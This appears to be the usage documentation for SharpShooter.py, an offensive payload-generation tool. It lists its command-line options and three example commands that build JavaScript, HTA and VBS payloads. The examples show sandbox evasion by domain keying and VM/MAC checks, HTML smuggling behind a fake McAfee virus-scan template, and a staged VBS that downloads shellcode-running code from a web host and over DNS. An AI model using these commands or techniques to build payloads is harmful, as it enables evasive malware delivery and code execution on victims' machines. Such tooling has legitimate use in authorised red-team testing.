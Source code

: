 ```
  --refs <refs>       References required to compile custom CSharp,
                      e.g. mscorlib.dll,System.Windows.Forms.dll
  --namespace <ns>    Namespace for custom CSharp,
                      e.g. Foo.bar
  --entrypoint <ep>   Method to execute,
                      e.g. Main
  --web <web>         URI for web delivery
  --dns <dns>         Domain for DNS delivery
  --output <output>   Name of output file (e.g. maldoc)
  --smuggle           Smuggle file inside HTML
  --template <tpl>    Name of template file (e.g. mcafee)
  ```

Examples of some use cases are provided below:

### Stageless JavaScript ###

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Create a stageless JavaScript payload targeting version 4 of the .NET framework. This example will create a payload named foo.js in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by keying execution to the CONTOSO domain, and checking for known sandbox/VM artifacts.

### Stageless HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Create a stageless HTA payload targeting version 2/3 of the .NET framework. This example will create a payload named foo.hta in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by checking for known virtual MAC addresses. A HTML smuggling payload will also be generated named foo.html in the output directory. This payload will use the example McAfee virus scan template.

### Staged VBS ###

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

This example creates a staged VBS payload that performs both Web and DNS delivery. The payload will attempt to retrieve a GZipped CSharp file that executes the shellcode supplied as a CSharp byte array in the csharpsc.txt file. The CSharp file used is the built-in SharpShooter shellcode execution template. The payload is created in the output directory named foo.payload and should be hosted on http://www.foo.bar/shellcode.payload. The same file should also be hosted on the bar.foo domain using PowerDNS to serve it. The VBS file will attempt to key execution to the CONTOSO domain and will be embedded in a HTML file using the HTML smuggling technique with the McAfee virus scanned template. The resultant payload is stored in the output directory named foo.html.
